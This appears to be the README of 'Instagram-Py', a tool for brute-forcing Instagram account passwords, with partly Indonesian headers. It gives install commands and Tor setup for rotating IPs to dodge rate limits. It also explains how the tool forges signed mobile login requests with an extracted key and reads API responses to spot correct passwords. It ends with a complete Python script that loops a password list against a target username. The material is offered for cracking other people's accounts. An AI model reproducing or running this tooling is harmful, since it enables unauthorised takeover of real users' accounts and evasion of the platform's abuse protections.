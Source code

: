 -------------------------------------------------- CARA PAKAI --------------------------------------------------
Instalasi Upgrading Instagram-Py dengan pip

$ sudo pip3 install instagram-py --upgrade $ sudo easy_install3 -U pip # you have to install python3-setuptools , update pip $ sudo pip3 install requests --upgrade $ sudo pip3 install requests[socks] $ sudo pip3 install stem $ sudo pip3 install instagram-py $ instagram-py # installed sukses $ instagram-py --create-configuration Configuring Instagram-Py

$ instagram-py --create-configuration $ # OR $ instagram-py -cc

$ instagram-py --create-configuration --default-configuration $ # OR $ instagram-py -cc -dc

Configuring Tor server to open control port

open your tor configuration file usually located at /etc/tor/torrc

$ sudo vim /etc/tor/torrc # open it with your text editor

search for the file for this specific section

The port on which Tor will listen for local connections from Tor
controller applications, as documented in control-spec.txt.
#ControlPort 9051

uncomment 'ControlPort' by deleting the # before 'ControlPort' , now save the file and restart your tor server

now you are ready to crack any instagram account , make sure your tor configuration matched ~/instapy-config.json Usage

Finally , now you can use instagram-py!

Instagram-Py Scripting lets you run Custom Python Scripts Inside Instagram-Py!

Never Run Instagram-Py with Multiple Instance! , Use Instagram-Py Scripting Instead!

$ instagram-py -u your_account_username -pl path_to_password_list

Note: Without the -c optional argument , instagram-py will not continue the attack

usage: instagram-py [-h] [--username USERNAME] [--password-list PASSWORD_LIST] [--script SCRIPT] [--inspect-username INSPECT_USERNAME] [--create-configuration] [--default-configuration] [--countinue] [--verbose]

optional arguments: -h, --help show this help message and exit --username USERNAME, -u USERNAME username for Instagram account --password-list PASSWORD_LIST, -pl PASSWORD_LIST password list file to try with the given username. --script SCRIPT, -s SCRIPT Instagram-Py Attack Script. --inspect-username INSPECT_USERNAME, -i INSPECT_USERNAME Username to inspect in the instagram-py dump. --create-configuration, -cc Create a Configuration file for Instagram-Py with ease. --default-configuration, -dc noconfirm for Instagram-Py Configuration Creator! --countinue, -c Countinue the previous attack if found. --verbose, -v Activate Verbose mode. ( Verbose level )

example: instagram-py -c -vvv -u instatestgod__ -pl rockyou.txt

Report bug, suggestions and new features at https://github.com/awanvenom/bobol_ig

Instagram-Py Scripting

Instagram-Py now lets you run your custom scripts inside of it for maximum customization of your attacks. This Scripts are simple Python Scripts ( You Can just do anything that is possible with python )

You Can Always View the Cracked Passwords Using this command!

$ instagram-py -i instatestgod__ $ # Displays record if it is cracked in the past!

Algorithm

Instagram-Py uses a very simple algorithm for checking passwords efficiently , this section is dedicated for those who wish to recreate this program in any other language.

You can see this live when you run the tool in max verbosity

$ instagram-py -vvv -u instatestgod__ -pl password_list.lst

You can also use Instagram-Py as a module , so that you can also use it in your script What we do

Step 1: Get the magic cookie , which is used to verify device integrity!

Getting the magic cookie is the simplest job , all we need to do is send a get request to https://i.instagram.com/api/v1/si/fetch_headers/?challenge_type=signup&guid= , where the guid get parameter is a random 32 character string. The random 32 character string can be generator using python's simple uuid library , to be specific v4 of UUID. So finally we just have to request the url https://i.instagram.com/api/v1/si/fetch_headers/?challenge_type=signup&guid=800e88b931bf491fa3b4a7afa4e679eb and get the cookie named csrftoken , if we observe the response header we could see that our cookie only expires next year the same day. So by this we only have to make this request once and can use it for a year! How vulnerable is that?...

Step 2: Build a post request with Instagram's signature.

This part is simple but may be difficult to setup , first i need to get instagram's signature which is only present in their free apk from google play , Remember our Strength can be our Weakness , All i have to do reverse engineer the apk and find the signature, lets call it ig_sig.

ig_sig = 4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178 ig_version = 4

Instagram uses HMAC Authentication for login stuff, so lets use python's hmac library. But first we have to build our body which will be encoded in json for it to actually sign with ig_sig , So the post body looks likes this...

phone_id = <RANDOM 32 CHARACTER STRING SEPERATED WITH - on EQUAL INTERVALS> _csrftoken = <THE MAGIC COOKIE THAT WE GOT!> username = guid = <RANDOM 32 CHARACTER STRING SEPERATED WITH - on EQUAL INTERVALS> device_id = android-<RANDOM 16 CHARACTER STRING> password = login_attempt_count = 0

The above will be encoded to JSON , So to test the password we have to post the data to this url https://i.instagram.com/api/v1/accounts/login/ig_sig_key_version=4&signed_body=. .

: using HMAC , sign our json encoded data with ig_sig and return a hexa value.

: the same data in json but we url encode so that it goes properly to insta!

So to test a account with username as USERNAME and password with PASSWORD we simply request this url https://i.instagram.com/api/v1/accounts/login/ig_sig_key_version=4&signed_body=bc90e1b7d430f39152e92b4e7d517bfb231dbe0515ed2071dc784cf876e301c3.%7B%22phone_id%22%3A%20%2232abb45c-f605-4fd7-9b5e-674115516b90%22%2C%20%22_csrftoken%22%3A%20%22PyMH2niVQrk41UIBW0lKilleG7GylluQ%22%2C%20%22username%22%3A%20%22USERNAME%22%2C%20%22guid%22%3A%20%2267ca220c-a9eb-4240-b173-2d253808904d%22%2C%20%22device_id%22%3A%20%22android-283abce46cb0a0bcef4%22%2C%20%22password%22%3A%20%22PASSWORD%22%2C%20%22login_attempt_count%22%3A%20%220%22%7D

Step 3: With the json response and response code , we determine the password is correct or wrong.

if We get response 200 then the login is success but if we get response 400 , We inspect the json data for clues if it is the correct password or invalid request or too many tries. So we inspect the message from instagram json response!

Message = Challenge Required , then the password is correct but instagram got some questions so we must wait until the user logs in and answer the question and if we are lucky they will not change the password and we could login in later(Most of the time people won't change the password!)

Message = The password you entered is incorrect. , then the password is incorrect for sure , try another.

Message as something like word invalid in it then , some other error so just try again, can happen because of wordlist encoding error which i ignored because all the worldlist have encoding error!

Message = Too many tries , Time to change our ip and loop but we don't want to change our magic cookie

Contribute anything you can to this repo (Issues | Pull request) , help is much appreciated.

Please Refer CONTRIBUTING for more information on contributing!

Using Instagram-Py as API

Instagram-Py supports to be used as a module as of v1.3.2 , so you don't want to reproduce my code. Just use it!

For some reason you wish not to use my software then you can use my software as a module and embed into your own software , anyway its native so its just gonna run the same as the official command-line tool unless you do something crazy.

Follow the same installation method mentioned above to install Instagram-Py API.

This is a simple script to conduct a bructe force attack using instagram-py as a API.

#!/usr/bin/env python3 ''' This is the same thing that is in the init file of the command-line tool. ''' from InstagramPy.InstagramPyCLI import InstagramPyCLI from InstagramPy.InstagramPySession import InstagramPySession , DEFAULT_PATH from InstagramPy.InstagramPyInstance import InstagramPyInstance from datetime import datetime

username = "TARGET ACCOUNT USERNAME" password = "PASSWORD LIST PATH"

appInfo = { "version" : "0.0.1", "name" : "Instagram-Py Clone", "description" : "Some Module to crack instagram!", "author" : "YourName", "company" : "YourCompany", "year" : "2017", "example" : "" }

cli = InstagramPyCLI(appinfo = appInfo , started = datetime.now() , verbose_level = 3)

'''

USE THIS IF YOU WANT
cli.PrintHeader() cli.PrintDatetime() ''' session = InstagramPySession(username , password , DEFAULT_PATH , DEFAULT_PATH , cli) session.ReadSaveFile(True) # True to countinue attack if found save file. '''

USE THIS IF YOU WANT
cli.PrintMagicCookie(session.magic_cookie) '''

''' Defining @param cli = None will make Instagram-Py run silently so you can you use your own interface if you like. or if you want to use the official interface then declare like this

instagrampy = InstagramPyInstance(cli = cli , session = session)

'''

instagrampy = InstagramPyInstance(cli = None ,session = session) while not instagrampy.PasswordFound(): print('Trying... '+session.CurrentPassword()) instagrampy.TryPassword()

if instagrampy.PasswordFound(): print('Password Found: '+session.CurrentPassword())

exit(0)
